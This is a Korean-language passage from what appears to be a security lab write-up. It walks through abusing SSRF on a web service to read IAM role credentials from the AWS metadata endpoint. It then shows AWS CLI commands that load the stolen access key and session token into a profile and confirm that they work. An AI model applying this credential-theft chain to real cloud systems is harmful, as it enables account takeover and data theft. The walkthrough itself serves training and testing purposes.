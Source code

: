 3. **IAM 자격증명 정보 획득** : [http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/hzone_role](http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/hzone_role)

![Untitled](/assets/2022-11-01/Untitled%203.png)

→ AccessKeyId, SecretAccessKey, Token 값 획득

### 4.3 AWS CLI를 이용한 IAM Role 권한 탈취

1. **인증정보 설정** : `aws configure --profile [name]`

![Untitled](/assets/2022-11-01/Untitled%204.png)

2. **aws_session_token 삽입** : `/.aws/credentials 파일`

![Untitled](/assets/2022-11-01/Untitled%205.png)

3. **stolen_role credentials 유효성 확인** : `aws sts get-caller-identity --profile stolen_role`

![Untitled](/assets/2022-11-01/Untitled%206.png)
